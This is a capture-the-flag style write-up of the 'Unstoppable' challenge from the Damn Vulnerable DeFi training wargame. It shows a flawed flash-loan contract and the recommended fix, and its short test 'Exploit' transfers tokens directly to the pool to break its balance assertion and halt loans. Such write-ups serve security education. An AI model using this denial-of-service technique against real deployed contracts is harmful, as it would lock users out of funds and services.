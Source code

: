 # Damn Vulnerable DeFi

Damn Vulnerable DeFi is the wargame to learn offensive security of DeFi smart contracts.

Throughout numerous challenges you will build the skills to become a bug hunter or security auditor in the space.

https://www.damnvulnerabledefi.xyz/

# Introduction

Unstoppable is the first challenge in the Damn Vulnerable DeFi series.

Challenge description: 
There's a lending pool with a million DVT tokens in balance, offering flash loans for free.
If only there was a way to attack and stop the pool from offering flash loans ...
You start with 100 DVT tokens in balance.

Challenge goal:
Make it so that it is no longer possible to execute flash loans.

# Findings 

## Critical Risk
### Incorrect equality in assert statement

**Context:** [`UnstoppableLender.sol#L40`](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/contracts/unstoppable/UnstoppableLender.sol)

**Description:**
UnstoppableLender contract uses depositTokens function to fund the pool and updates poolBalance variable accordingly. However one can send tokens to the contract without using depositTokens function causing poolBalance to be incorrect which leads to assertion in line40 being always false.

```solidity
function flashLoan(uint256 borrowAmount) external nonReentrant {
    require(borrowAmount > 0, "Must borrow at least one token");

    uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
    require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

    // Ensured by the protocol via the `depositTokens` function
    assert(poolBalance == balanceBefore);
        
    damnValuableToken.transfer(msg.sender, borrowAmount);
        
    IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);
        
    uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
    require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
}
```
**Recommendation:**
poolBalance has no good use in the contract and should be removed along with every line using it. one should use token.balanceOf(address(this)) if he wants to know how much of a token is in the contract.

```diff
+ 
- assert(poolBalance == balanceBefore);
- uint256 public poolBalance;
- poolBalance = poolBalance + amount;
```

# How To Solve The Challenge
send DamnValuableTokens to UnstoppableLender contract without using depositTokens function.

**Context:** [`unstoppable.challenge.js#L41-L43`]

```javascript
it('Exploit', async function () {
    await this.token.transfer(this.pool.address, INITIAL_ATTACKER_TOKEN_BALANCE);
});
```